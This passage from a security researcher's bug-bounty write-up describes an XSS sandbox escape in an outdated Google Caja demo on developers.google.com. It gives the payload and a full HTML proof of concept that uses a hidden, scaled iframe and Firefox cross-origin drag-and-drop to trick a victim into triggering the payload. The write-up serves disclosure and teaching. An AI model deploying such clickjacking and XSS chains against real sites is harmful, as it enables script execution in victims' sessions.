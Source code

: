And that was another bounty thanks to Caja :)

### What Google did wrong

When almost two months passed after Google introduced fix to the second bug, I had another look at various places in which Google uses Caja. The place that caught my eyse was its official [Google Developers page](https://developers.google.com/caja/) in which programmers might learn a few examples of how to use Caja properly. The interesting example was this one: [https://developers.google.com/caja/demos/runningjavascript/host.html](https://developers.google.com/caja/demos/runningjavascript/host.html). The page contains just an input box where you can enter a URL that will be *cajoled* and run. The thing was - that it still referenced the old version of Caja. The version in which both the sandbox escapes shown before worked. So when I just type `data:,\u0077indow.top.alert(1)` then the XSS executed in developers.google.com.

[![](https://3.bp.blogspot.com/-UEnthIQQDPY/V3mDbdLnykI/AAAAAAAAAIw/yIzTXepuolkpFgieM0rU_ktFV35MfgPhQCLcB/s320/Caja_host_page.png)](https://3.bp.blogspot.com/-UEnthIQQDPY/V3mDbdLnykI/AAAAAAAAAIw/yIzTXepuolkpFgieM0rU_ktFV35MfgPhQCLcB/s1600/Caja_host_page.png)

Of course I couldn't report the bug to Google at this point because in order to exploit the issue, the victim would've had to enter the formula URL by themselves and then click the button. This sounds like a unlikely user interaction.

Fortunately for me, the page in question didn't use `X-Frame-Options` and thus it was a perfect opportunity to abuse the [cross-origin drag-and-drop in Firefox](https://bugzilla.mozilla.org/show_bug.cgi?id=605991). What I needed to do here, was just to embed the vulnerable page in the iframe, then create a draggable HTML element with the JS payload as its content and convince the user to perform just two drag-and-drop actions. The HTML code of the exploit was fairly simple:

```html
<script>
  function drag(ev) {
    ev.dataTransfer.setData(
      "text",
      "data:,\\\\u0077indow.eval('alert(document.domain)')//"
    );
  }
</script>

<div
  id="target1"
  style="background-color:blue;width:10px;height:60px;position:fixed;left:322px;top:117px;"
></div>

<div
  id="target2"
  style="background-color:green;width:120px;height:60px;position:fixed;left:325px;top:194px;"
></div>

<div
  style="font-size:60px;background-color:red;color:green;width:10px;height:60px"
  draggable="true"
  ondragstart="drag(event)"
  id="paldpals"
>
  .
</div>

<br /><br />

<iframe
  src="https://developers.google.com/caja/demos/runningjavascript/host.html?"
  style="width:150px; height:500px; transform: scale(4); position:fixed; left:500px; top:350px; opacity: 0; z-index: 100"
></iframe>
```
